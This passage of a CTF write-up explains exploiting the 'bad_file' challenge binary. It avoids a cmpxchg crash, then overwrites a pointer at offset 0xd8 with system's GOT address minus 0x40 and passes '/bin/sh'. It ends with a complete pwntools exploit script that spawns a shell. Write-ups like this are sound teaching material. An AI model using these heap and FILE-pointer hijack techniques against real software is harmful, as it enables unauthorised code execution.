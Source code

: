 ```
$1 = 0x400000
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /Hackery/swamp/bad_file/bad_file
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /Hackery/swamp/bad_file/bad_file
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /Hackery/swamp/bad_file/bad_file

.   .   .
```

Here we can see that the value we overwrote at offset `0xa0` to be `0x400000` is causing a crash (the reason why it is an address, is because earlier that value is dereferenced, so if it isn't an address it would cause a crash). Here it is running the `cmpxchg` instruction which compares the two operands, and if they aren't equal the contents of the second argument are moved into the first. The issue here is that the memory region `0x400000` is in is not writable, so it crashes when it tries to write to it. To solve this I just looked through the memory region starting at `0x601000` for an eight byte segment that was equal to `0x0` (since without our hacking that's what the value is). Since there isn't `pie` I know the address before the binary runs, and since the region is writable I can write to it no problem.

So with that, it just leaves us with our final problem. What value will we overwrite the pointer to an instruction pointer with to get code execution. There is a `hidden_alleyway` function which would print the flag, however due to the lack of infoleaks I couldn't find a way to get a pointer to it's address. Luckily for us the GOT table has system in it. So to get a shell I just overwrote the pointer at offset `0xd8` with the got address of `system - 0x40` (we need the `-0x40` to counter the `+0x40`). Then when it dereferences that pointer, and jumps to an instruction pointer it will call system.

The last thing we need is to pass the argument `/bin/sh` to the function `system` (which takes a char pointer as an argument). Luckily for us the first argument is passed in the `rdi` register, which at the time of the jump is a pointer to the freed `heapPtr` (and due to the overlap, `stream` too). So we just have to set the first eight bytes of our input equal to `/bin/sh\x00` (we need the null byte in there to separate it from the rest of the input) to pass the argument `/bin/sh` to system.

### Exploit Code

With all of this, we can write the exploit (ran on Ubuntu 16.04):

```
from pwn import *

# Establish the target
target = process('./bad_file', env={"LD_PRELOAD":"./libc6.so"})
#gdb.attach(target)

# Get through the initial prompt and temp_name functions
# Make sure to go the UAF route
target.sendline("1")
target.sendline("15935728")

# Make the payload
payload = "/bin/sh\x00"
payload += "0"*0x80
payload += p64(0x6010b0)
payload += "1"*0x48
payload += p64(0x601038 - 0x40)

# Wait for it to prompt us for a new name
print target.recvuntil("new name.")

# Send the exploit
target.send(payload)

# Drop to an interactive shell to use the shell
target.interactive()
```